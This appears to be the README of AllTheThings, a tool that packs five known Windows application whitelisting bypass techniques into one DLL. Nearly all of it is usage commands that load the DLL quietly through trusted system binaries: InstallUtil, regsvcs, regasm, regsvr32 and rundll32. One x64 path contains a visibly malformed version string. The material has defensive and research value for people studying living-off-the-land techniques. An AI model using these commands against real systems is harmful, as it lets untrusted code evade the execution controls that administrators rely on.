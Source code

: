 # AllTheThings

###Includes 5 Known Application Whitelisting Bypass Techniques in One File.

###1. InstallUtil.exe

###2. Regsvcs.exe

###3. Regasm.exe

###4. regsvr32.exe

###5. rundll32.exe



#Usage:
##1. 
    x86 - C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.dll

    x64 - C:\Windows\Microsoft.NET\Framework64\v4.0.3031964\InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.dll
##2. 

    x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe AllTheThings.dll

    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe AllTheThings.dll
##3. 

    x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U AllTheThings.dll

    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U AllTheThings.dll

##4. 

    regsvr32 /s  /u AllTheThings.dll -->Calls DllUnregisterServer

    regsvr32 /s AllTheThings.dll --> Calls DllRegisterServer
    
##5. 

    rundll32 AllTheThings.dll,EntryPoint
